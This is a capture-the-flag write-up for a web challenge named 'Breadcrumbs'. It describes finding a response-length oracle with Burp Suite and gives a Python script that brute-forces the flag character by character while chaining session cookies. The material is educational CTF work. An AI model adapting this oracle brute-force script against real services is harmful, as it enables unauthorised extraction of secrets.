


# Writeup: Breadcrumbs
## Team: big🔥
**Author:** SpaceyLad (Stian Kvålshagen)

This task is all about automation!



When exploring the page with Burp Suite (If it is not obvious by now, my favorite tool <3) we can see 2 important differences.

1. When we send the wrong char, our response is 22488, but when we send a successful char, it is 22536 (Or something close). So we know what is considered a successful guess and a failed guess.
2. When we send a successful char, a “set cookie” is ran and we get a new cookie. If we check the content of the cookie, we are now referring to another index in the string we are putting together.

So we need to automate a process that looks for the correct char, in the correct index, then goes to the next one (By using the new cookie) all the way to the end. Which we know is “}”.

I gave these instructions to my friendly hacker dragon GPT Ace and made him vice code a script to do this. One important thing to notice is that you also need to URL encode special characters.

Code to solve the task
```
import requests
from urllib.parse import urljoin, quote

BASE_URL = "https://breadcrumbs.ept.gg/"
WRONG_LENGTH = 22488

# Yes I set EPT{ at the beginning to save time when debugging the code :P
CHARSET = list("EPT{#0123456789abcdefghijklmnopqrstuvwxyzABCDFGHIJKLMNOQRSUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`|}~")

def get_initial_cookie():
    print("[*] Fetching initial session cookie...")
    try:
        response = requests.get(BASE_URL, allow_redirects=False)
        cookie = response.cookies.get("session")
        if not cookie:
            print("[!] No session cookie received!")
            return None
        print(f"[i] Got initial session cookie: {cookie[:30]}...")
        return cookie
    except Exception as e:
        print(f"[!] Error fetching initial session: {e}")
        return None


def try_char(ch, session_cookie):
    encoded_char = quote(ch, safe="")
    url = urljoin(BASE_URL, encoded_char)
    try:
        response = requests.get(url, cookies={"session": session_cookie}, allow_redirects=False)
        length = len(response.text)
        print(f"Trying '{ch}' (encoded as '{encoded_char}') -> Length: {length}")
        if length != WRONG_LENGTH:
            new_cookie = response.cookies.get("session")
            return True, new_cookie or session_cookie
    except Exception as e:
        print(f"[!] Request failed for '{ch}': {e}")
    return False, session_cookie


def brute_force_flag():
    flag = ""
    session_cookie = get_initial_cookie()
    if not session_cookie:
        return
    while not flag.endswith("}"):
        print(f"\n[>] Current flag: {flag}")
        found = False

        for ch in CHARSET:
            success, new_cookie = try_char(ch, session_cookie)
            if success:
                flag += ch
                session_cookie = new_cookie
                print(f"[+] Success! Flag so far: {flag}")
                found = True
                break
        if not found:
            print("[-] No valid character found at this position. Stopping.")
            break
    print(f"\n[✓] Final flag: {flag}")

if __name__ == "__main__":
    brute_force_flag()
```
Result! :D 
